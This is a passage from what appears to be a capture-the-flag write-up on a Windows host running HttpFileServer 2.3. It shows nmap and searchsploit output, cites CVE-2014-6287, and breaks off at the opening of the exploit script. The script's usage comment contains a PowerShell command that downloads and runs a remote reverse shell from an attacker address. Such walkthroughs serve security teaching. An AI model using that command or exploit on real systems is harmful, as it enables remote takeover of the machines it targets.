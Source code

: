 ```
Host is up (0.023s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.29 seconds

```

`nmap` identifies the host as Windows, but the HTTP server doesn’t look like IIS, so it’s hard to get an OS version from it.

### Website - TCP 80

#### Site

The website is just what the `nmap` scripts identified - HttpFileServer (HFS):

![image-20210313160126963](https://0xdfimages.gitlab.io/img/image-20210313160126963.png)

I tried some basic cred guessing, but no luck.

#### Vulnerabilities

The bottom of the page gives the exact version of HFS running, 2.3. `searchsploit` has a bug for this version:

```

oxdf@parrot$ searchsploit httpfileserver
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command | windows/webapps/49125.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results

```

This vulnerability is know as [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287).

## Shell as kostas

### Exploit Analysis

Using `searchsploit -x windows/webapps/49125.py` to look at the exploit, it’s incredibly straight forward:

```

#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
```